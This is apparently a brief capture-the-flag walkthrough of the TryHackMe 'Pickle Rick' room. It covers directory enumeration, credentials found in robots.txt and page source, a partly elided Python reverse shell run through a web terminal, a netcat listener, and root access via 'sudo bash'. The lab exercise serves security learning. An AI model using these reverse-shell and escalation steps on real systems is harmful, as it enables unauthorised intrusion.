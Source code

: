 ```yaml
---
title: Pickle Rick
permalink: pickleRick
---
```

# ![front](/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command 
    >python -c 'import ......os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](/images/pickleRick/1st.png)
### 2nd Flag:
![user_flag](/images/pickleRick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
      > 'sudo bash'
    
### 3rd Flag:
![rootflag.png](/images/pickleRick/3rd.png)
